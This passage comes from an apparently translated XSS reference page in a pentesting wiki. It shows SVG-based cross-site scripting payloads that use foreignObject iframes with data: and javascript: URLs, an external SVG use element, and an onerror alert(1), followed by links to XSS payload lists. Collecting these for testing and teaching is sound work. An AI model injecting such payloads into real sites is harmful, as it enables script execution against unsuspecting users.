 ```svg
<svg width="500" height="500"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>

<foreignObject width="500" height="500">
<iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
<iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
</foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```
Find **more SVG payloads in** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Misc JS Tricks & Relevant Info

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS kaynakları

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
* [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
* [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
* [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
* [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
